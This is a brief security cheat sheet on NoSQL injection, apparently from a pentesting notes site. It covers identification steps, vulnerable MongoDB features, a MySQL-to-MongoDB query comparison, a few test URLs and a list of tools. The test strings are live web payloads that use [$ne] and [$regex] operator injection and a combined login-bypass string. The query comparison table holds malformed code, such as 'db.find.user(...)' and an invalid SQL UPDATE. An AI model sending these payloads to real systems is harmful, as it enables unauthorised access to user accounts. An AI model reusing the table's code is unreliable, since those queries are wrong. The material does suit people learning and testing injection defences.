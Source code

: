 ```yaml
---
title: NoSQL Injection
category: Web Application
order: 5
---
```



> **Identification**

* Find a baseline request and response 
* Find a syntax error from the database
* Inject operators to modify query
* Inject javascript, BSON, JSON
* Access REST APIs or managment interfaces directly to database

> **Location in code**

* Usually in the $where operator
* mapReduce
* DB.eval

> **NoSQL Queries vs SQL**

MySQL | MongoDB
<code> select * from users where ID = 1; </code> | <code> db.find.user({user_id: 1,}) </code>
<code> update set users password = '[input]' where id = 1; </code> | <code> db.update.user({user_id, [#]}, {$set {password: '[input]'}}) </code>

> **NoSQL Injection: Test Location and Strings**

Not Equals | <code> http://site.org/User[$ne]=1 </code>
RegEx | <code> http://site.org/user.php?type[$regex]=.*&username[$regex]=.*
Combined | <code> http://site.org/login.php?type[$ne]=user&username[$ne]=asdf&password=asdf'||'1'=='1' %26%26 'b' == 'b </code>

> **Tools**

* NoSQLMAP 
* NoSQL Exploitation Framework
* FuzzDB list
* Burp Suite Pro
